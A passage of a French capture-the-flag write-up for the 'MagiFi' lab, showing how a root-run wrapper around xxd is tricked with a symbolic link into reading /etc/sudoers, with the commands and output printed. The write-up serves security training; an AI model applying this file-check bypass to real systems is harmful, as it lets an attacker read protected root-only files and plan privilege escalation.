 ```console
fwrite("Not every wizards can use or des"..., 1, 48, 0x7fbfa2fda5c0Not every wizards can use or destroy a Horcrux!
)                                                              = 48
+++ exited (status 1) +++
```

On voit ici que :

- le path d'input ne doit pas contenir `/root/`  ou `/etc/`

- le path d'output ne doit pas contenir `/root/` ou `/etc/`

- le fichier passé avec `-O` doit se nommer `.horcrux.png`

Comme on s'y attend, le programme appelle le vrai `xxd` mais via `execve` ce qui rend impossible une injection via la variable `PATH` :

```console
tom.riddle@MagiFi:~$ echo "hello there" > abc
tom.riddle@MagiFi:~$ /usr/bin/xxd_horcrux abc def -O .horcrux.png
tom.riddle@MagiFi:~$ ls -al abc def
-rw-rw-r-- 1 tom.riddle tom.riddle 12 May 14 17:02 abc
-rw-rw-r-- 1 root       tom.riddle 64 May 14 17:02 def
tom.riddle@MagiFi:~$ cat def
00000000: 6865 6c6c 6f20 7468 6572 650a            hello there.
```

Avec le programme, on peut donc lire un fichier. On obtiendra sa version hexa.

Pour bypasser le check sur `/etc` je peux simplement utiliser un lien symbolique. Ici, je vais obtenir le contenu de `/etc/sudoers`.

```console
tom.riddle@MagiFi:/tmp$ mkdir yolo
tom.riddle@MagiFi:/tmp$ cd yolo/
tom.riddle@MagiFi:/tmp/yolo$ ln -s /etc/sudoers sudoers
tom.riddle@MagiFi:/tmp/yolo$ /usr/bin/xxd_horcrux sudoers out -O .horcrux.png
tom.riddle@MagiFi:/tmp/yolo$ ls -al
total 12
drwxrwxr-x  2 tom.riddle tom.riddle 4096 May 13 22:15 .
drwxrwxrwt 14 root       root       4096 May 13 22:15 ..
-rw-------  1 root       tom.riddle    0 May 13 22:15 .horcrux.png
-rw-rw-r--  1 root       tom.riddle 3864 May 13 22:15 out
lrwxrwxrwx  1 tom.riddle tom.riddle   12 May 13 22:15 sudoers -> /etc/sudoers
tom.riddle@MagiFi:/tmp/yolo$ xxd -r out 
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL
harry_potter    ALL=(root) NOPASSWD: /usr/sbin/aireplay-ng, /usr/sbin/airmon-ng, /usr/sbin/airodump-ng, /usr/bin/airdecap-ng, /usr/bin/hostapd-mana
```